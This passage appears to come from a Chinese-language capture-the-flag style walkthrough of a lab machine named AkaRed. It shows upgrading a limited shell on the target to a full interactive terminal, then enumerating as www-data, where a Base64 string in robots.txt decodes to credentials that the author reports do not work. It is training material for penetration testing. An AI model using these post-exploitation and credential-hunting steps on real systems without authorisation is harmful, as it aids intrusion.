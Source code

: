 初始获得的 Shell 通常是非交互式的，功能受限（如没有 Tab 补全、无法运行 `sudo` 等）。需要升级为功能完整的 TTY。

```bash
# 在目标 Shell 中执行:
$ script /dev/null -c bash   # 使用 script 创建一个伪终端
# 按下 Ctrl+Z 将其置于后台

# 在攻击者 Kali 终端中执行:
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg      # 设置本地终端模式，并将后台任务调回前台
# 按两次 Enter 键

# 回到目标 Shell 中执行:
reset xterm                  # 重置终端类型
export TERM=xterm            # 设置终端环境变量
export SHELL=/bin/bash       # 设置 SHELL 环境变量
stty rows 59 cols 236      # (可选) 设置终端尺寸以匹配本地终端
```

现在拥有了一个功能更完善的交互式 Shell。

## 3. 权限提升 (www-data -> welcome)

此阶段目标是从 `www-data` 用户提升到权限更高的用户。

### 3.1. 以 www-data 身份进行信息收集 (Enumeration as www-data)

* **Web 目录探索:**

  ```bash
  www-data@AkaRed:/var/www/html$ ls -al
  total 16
  # ...
  -rw-r--r-- 1 root root   21 Apr 11 06:26 robots.txt
  ```

  发现 `robots.txt` 文件。

* **检查 `robots.txt`:**

  ```bash
  www-data@AkaRed:/var/www/html$ cat robots.txt 
  d2VsY29tZTpha2FyZWQ=
  ```

  这是一串 Base64 编码的字符串。

* **解码 Base64:**

  ```bash
  www-data@AkaRed:/var/www/html$ echo 'd2VsY29tZTpha2FyZWQ=' | base64 -d
  welcome:akared
  ```

  解码得到凭据 `welcome:akared`。尝试使用此凭据 `su welcome`，但根据后续操作判断，此密码 **不正确** 。

* **检查家目录:**
